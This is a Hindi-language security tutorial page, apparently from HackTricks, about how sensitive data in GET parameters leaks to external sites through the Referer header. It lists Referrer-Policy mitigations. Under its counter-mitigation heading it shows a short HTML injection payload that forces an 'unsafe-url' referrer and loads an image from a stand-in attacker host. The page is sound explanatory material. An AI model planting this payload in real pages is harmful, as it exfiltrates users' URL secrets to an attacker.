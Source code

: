 {{#include ./banners/hacktricks-training.md}}

# Referrer headers and policy

Referrer वह हेडर है जिसका उपयोग ब्राउज़रों द्वारा यह संकेत करने के लिए किया जाता है कि कौन सा पिछला पृष्ठ देखा गया था।

## Sensitive information leaked

यदि किसी समय एक वेब पृष्ठ के अंदर कोई संवेदनशील जानकारी GET अनुरोध पैरामीटर पर स्थित है, यदि पृष्ठ में बाहरी स्रोतों के लिए लिंक हैं या एक हमलावर उपयोगकर्ता को एक URL पर जाने के लिए मजबूर/सुझाव देने में सक्षम है जो हमलावर द्वारा नियंत्रित है। यह नवीनतम GET अनुरोध के अंदर संवेदनशील जानकारी को निकालने में सक्षम हो सकता है।

## Mitigation

आप ब्राउज़र को एक **Referrer-policy** का पालन करने के लिए कह सकते हैं जो **संवेदनशील जानकारी** को अन्य वेब अनुप्रयोगों में भेजने से **बचा** सके:
```
Referrer-Policy: no-referrer
Referrer-Policy: no-referrer-when-downgrade
Referrer-Policy: origin
Referrer-Policy: origin-when-cross-origin
Referrer-Policy: same-origin
Referrer-Policy: strict-origin
Referrer-Policy: strict-origin-when-cross-origin
Referrer-Policy: unsafe-url
```
## काउंटर-निवारण

आप इस नियम को एक HTML मेटा टैग का उपयोग करके ओवरराइड कर सकते हैं (हमलावर को एक HTML इंजेक्शन का शोषण करने की आवश्यकता है):
```markup
<meta name="referrer" content="unsafe-url">
<img src="https://attacker.com">
```
## रक्षा

कभी भी किसी संवेदनशील डेटा को GET पैरामीटर या URL में पथ के अंदर न रखें।

{{#include ./banners/hacktricks-training.md}}
